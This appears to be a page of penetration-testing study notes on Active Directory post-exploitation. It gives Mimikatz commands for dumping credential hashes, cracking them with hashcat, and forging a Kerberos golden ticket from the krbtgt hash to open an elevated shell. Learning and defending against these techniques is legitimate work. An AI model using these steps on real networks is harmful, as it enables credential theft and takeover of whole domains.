 ![image](https://github.com/user-attachments/assets/42516a6b-25f3-46d2-a5ea-93e7edf4bc00)

-----------------------

### Mimikatz

----------------------

- Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network.
- Run the mimikatz binary with-:

```powershell
.\mimikatz.exe
```

- `privilege::debug`-:This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly.It should be `200: ok`.

![image](https://github.com/user-attachments/assets/54896a79-623a-4951-a043-9df9a4f75929)

- Dump hashes with-:

```powershell
lsadump::lsa /patch
```

![image](https://github.com/user-attachments/assets/dff6ac18-1a61-4368-825f-df5457485be1)

- Crack with hashcat-:

```bash
hashcat -m 1000 <hash> rockyou.txt
```

---------------------

### Golden Ticket

----------------------

- This attack dump the hash and sid of the krbtgt user. then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.
- Dumping the hash of the user `Kerberos Ticket Granting Ticket` account, this dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.

```mimikatz
lsadump::lsa /inject /name:krbtgt
```
![image](https://github.com/user-attachments/assets/5e75de95-d792-4015-8d2e-8e70cf3fdd24)

- Create a golden ticket with-:

```mimikatz
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

- Use `misc::cmd` to spawn an elevated shell-:



![image](https://github.com/user-attachments/assets/80c18837-d239-477f-a320-232e50afab7a)




